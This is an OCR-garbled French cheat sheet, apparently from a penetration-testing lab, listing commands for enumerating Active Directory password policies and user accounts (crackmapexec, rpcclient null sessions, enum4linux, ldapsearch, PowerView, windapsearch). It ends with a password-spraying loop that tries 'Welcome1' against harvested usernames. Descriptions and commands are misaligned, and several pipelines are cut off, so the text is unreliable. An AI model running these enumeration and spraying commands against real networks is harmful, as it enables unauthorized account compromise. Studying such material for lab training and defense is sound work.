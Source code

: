 ```shell
`crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol`
```shell
### Utilise rpcclient pour découvrir des informations sur le domaine via des sessions SMB NULL. Exécutée depuis un hôte basé sur Linux.
```bash
`rpcclient -U "" -N 172.16.5.5`
```shell
### Utilise rpcclient pour énumérer la politique de mot de passe dans un domaine Windows cible depuis un hôte basé sur Linux.
```bash
`rpcclient $> querydominfo`
```shell
### Utilise enum4linux pour énumérer la politique de mot de passe (-P) dans un domaine Windows cible depuis un hôte basé sur Linux.
```bash
`enum4linux -P 172.16.5.5`
```shell
### Utilise enum4linux-ng pour énumérer la politique de mot de passe (-P) dans un domaine Windows cible depuis un hôte basé sur Linux, puis présente la sortie en YAML et JSON sauvegardée dans un fichier après l'option -oA.
```bash
`enum4linux-ng -P 172.16.5.5 -oA ilfreight`
```shell
### grep -m 1 -B 10 pwdHistoryLength
```bash
`ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" \
```shell
### Utilisée pour énumérer la politique de mot de passe dans un domaine Windows depuis un hôte basé sur Windows.
```bash
`net accounts`
```shell
### Utilise le cmdlet Import-Module pour importer l'outil PowerView.ps1 depuis un hôte basé sur Windows.
```bash
`Import-Module .\PowerView.ps1`
```shell
### Utilisée pour énumérer la politique de mot de passe dans un domaine Windows cible depuis un hôte basé sur Windows.
```bash
`Get-DomainPolicy`
```shell
### grep "user:" \
```bash
`enum4linux -U 172.16.5.5 \
```shell
### Utilise rpcclient pour découvrir les comptes utilisateurs dans un domaine Windows cible depuis un hôte basé sur Linux.
```bash
`rpcclient -U "" -N 172.16.5.5 rpcclient $> enumdomuser`
```shell
### Utilise CrackMapExec pour découvrir les utilisateurs (--users) dans un domaine Windows cible depuis un hôte basé sur Linux.
```bash
`crackmapexec smb 172.16.5.5 --users`
```shell
### grep sAMAccountName: \
```bash
`ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" \
```shell
### Utilise l'outil Python windapsearch.py pour découvrir les utilisateurs dans un domaine Windows cible depuis un hôte basé sur Linux.
```bash
`./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`
```shell
### grep Authority; done
```bash
`for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 \
```shell
```